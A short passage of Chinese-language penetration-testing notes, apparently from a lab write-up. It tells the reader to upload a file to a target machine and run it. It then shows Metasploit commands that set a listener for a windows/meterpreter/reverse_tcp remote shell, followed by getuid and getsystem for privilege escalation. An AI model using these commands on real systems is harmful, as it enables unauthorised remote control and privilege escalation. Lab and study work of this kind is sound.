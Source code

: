 将文件上传到目标机中，远程运行文件

​![image](assets/image-20241028181158-q7gifkg.png)​

使用multi/handler进行监听

```bash
set lhost 192.168.61.17
set lport 12345
set payload windows/meterpreter/reverse_tcp  
run
```

​![image](assets/image-20241028182933-pm0mfst.png)​

‍

```bash
getuid  //查看当前用户权限
getsystem   //提权
```
